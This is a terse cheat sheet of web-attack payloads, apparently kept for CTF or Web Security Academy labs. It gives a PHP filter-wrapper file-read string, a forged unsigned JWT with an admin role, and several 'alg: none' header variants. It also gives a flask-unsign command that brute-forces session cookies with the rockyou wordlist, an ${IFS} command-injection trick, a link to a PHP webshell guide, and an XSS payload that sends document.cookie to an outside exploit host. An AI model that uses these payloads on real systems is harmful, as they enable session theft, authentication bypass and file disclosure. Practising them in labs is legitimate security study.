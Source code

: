 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

---
xss ngrpk paylode
```js
<script> var i=new Image(); i.src='https://exploit-0acc00b804bd4cfac0c1a75b017a007d.web-security-academy.net/exploit?='+document.cookie</script>
```

---
JWT attacks Accepting tokens with no signature

```json
{
    "alg": "HS256",
    "typ": "JWT"
}
```

to :

```json
{
    "alg": "HS256",
    "typ": "none"
}
```
none or NoNe or noNE ...etc
